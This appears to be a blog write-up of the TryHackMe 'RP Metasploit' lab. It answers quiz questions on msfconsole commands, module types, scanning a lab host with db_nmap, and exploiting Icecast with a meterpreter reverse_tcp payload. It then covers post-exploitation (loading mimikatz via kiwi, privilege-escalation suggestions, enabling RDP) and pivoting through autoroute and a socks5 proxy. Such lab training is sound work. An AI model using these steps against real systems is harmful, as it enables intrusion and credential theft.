 ```yaml
---
title: "RP Metasploit | TryHackMe"
date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - cybersecurity
  - writeup
---
```


---

Learn to use Metasploit, a tool to probe and exploit vulnerabilities on networks and servers.
Task 1 Intro
Kali and most other security distributions of Linux include Metasploit by default. If you are using a different distribution of Linux, verify that you have it installed or install it from the Rapid 7 Github repository.
Metasploit

---

Task 2 Initializing…
First things first, we need to initialize the database! Let's do that now with the command
msfdb init
msfdb initBefore starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command:
msfconsole -h
msfconsole -hWe can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-'
-q
msfconsole -qOnce the database is initialized, go ahead and start Metasploit via the command:
msfconsole
msfconsoleAfter Metasploit has started, let's go ahead and check that we've connected to the database. Do this now with the command:
db_status
db_statusCool! We've connected to the database, which type of database does Metasploit 5 use?
postgresql

---

Task 3 Rock'em To The Core
Using the help menu, let's now learn the base commands and the module categories in Metasploit. Nearly all of the answers to the following questions can be found in the Metasploit help menu.
Let's go ahead and start exploring the help menu. On the Metasploit prompt (where we'll be at after we start Metasploit using msfconsole), type the command:
help
helpThe help menu has a very short one-character alias, what is it?
?
Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. What is the base command we use for searching?
search
searchOnce we've found the module we want to leverage, what command we use to select it as the active module?
use
useHow about if we want to view information about either a specific module or just the active one we have selected?
info
infoMetasploit has a built-in netcat-like function where we can make a quick connection with a host simply to verify that we can 'talk' to it. What command is this?
connect
connectEntirely one of the commands purely utilized for fun, what command displays the motd/ascii art we see when we start msfconsole (without -q flag)?
banner
bannerWe'll revisit these next two commands shortly, however, they're two of the most used commands within Metasploit. First, what command do we use to change the value of a variable?
set
setMetasploit supports the use of global variables, something which is incredibly useful when you're specifically focusing on a single box. What command changes the value of a variable globally?
setg
setgNow that we've learned how to change the value of variables, how do we view them? There are technically several answers to this question, however, I'm looking for a specific three-letter command which is used to view the value of single variables.
get
getHow about changing the value of a variable to null/no value?
unset
unsetWhen performing a penetration test it's quite common to record your screen either for further review or for providing evidence of any actions taken. This is often coupled with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. What command can we use to set our console output to save to a file?
spool
spoolLeaving a Metasploit console running isn't always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. What command can we use to store the settings/active datastores from Metasploit to a settings file? This will save within your msf4 (or msf5) directory and can be undone easily by simply removing the created settings file.
save
save

---

Task 4 Modules For Every Occasion!
Metasploit consists of six core modules that make up the bulk of the tools you will utilize within it. Let's take a quick look through the various modules, their purposes, and some of the commands associated with modules.
*Note, this diagram includes both the interfaces and *most\* of the modules. This diagram does not include the 'Post' module.Easily the most common module utilized, which module holds all of the exploit code we will use?
exploit
Used hand in hand with exploits, which module contains the various bits of shellcode we send to have executed following exploitation?
payload
Which module is most commonly used in scanning and verification machines are exploitable? This is not the same as the actual exploitation of course.
auxiliary
One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?
post
Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?
encoder
Last but not least, which module is used with buffer overflow and ROP attacks?
nop
Not every module is loaded in by default, what command can we use to load different modules?
load

---

Task 5 Move That Shell!
Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!
As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service.
Note, Metasploit does support different types of port scans from within the auxiliary modules. Metasploit can also import other scans from nmap and Nessus just to name a few.

Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command
db_nmap -sV 10.10.199.128
db_nmap -sV 10.10.199.128What service does nmap identify running on port 135?
msrpc
msrpcLet's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.
hostsHow about something else from the database, try the command services now.
servicesOne last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.
vulnsNow that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? \*This will include the exploit section at the start
exploit/windows/http/icecast_header
exploit/windows/http/icecast_headerWhile that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command search multi/handler.
multi/handlerGo ahead and run the command use NUMBER_NEXT_TO exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
use 5
use 5What is the name of the column on the far left side of the console that shows up next to 'Name'?

#

Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.
Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.
use show options commandLet's go ahead and return to our previous exploit, run the command use icecast to select it again.
One last step before we can run our exploit. Run the command set RHOSTS 10.10.199.128 to tell Metasploit which target to attack.
always show options to see if all requirement are metOnce you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.
recommend use -j commandOnce we've started this, we can check all of the jobs running on the system by running the command jobs
After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER
sessionssessions -i SESSION_NUMBER

---

Task 6 Were In, Now What?
Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.
First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command ps. What's the name of the spool service?
psLet's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!
migrate
Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?
getuid
getuidHow about finding more information out about the system itself?
sysinfo
sysinfoThis might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?
load kiwi
Let's go ahead and figure out the privileges of our current user, what command do we run?
getprivs
getprivsWhat command do we run to transfer files to our victim computer?
upload
How about if we want to run a Metasploit module?
run
A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?
ipconfig
Let's go ahead and run a few post modules from Metasploit. First, let's run the command run post/windows/gather/checkvm. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
post/windows/gather/checkvmNext, let's try: run post/multi/recon/local_exploit_suggester. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room Ice.
run post/multi/recon/local_exploit_suggesterFinally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: run post/windows/manage/enable_rdp
run post/windows/manage/enable_rdpOne quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?
shell
shell

---

Task 7 Making Cisco Proud
Last but certainly not least, let's take a look at the autorouting options available to us in Metasploit. While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks.
Let's go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
run autoroute -s 172.18.1.0 -n 255.255.255.0
Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command search server/socks5. What is the full path to the socks5 auxiliary module?
auxiliary/server/socks5
Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with proxychains?
proxychains

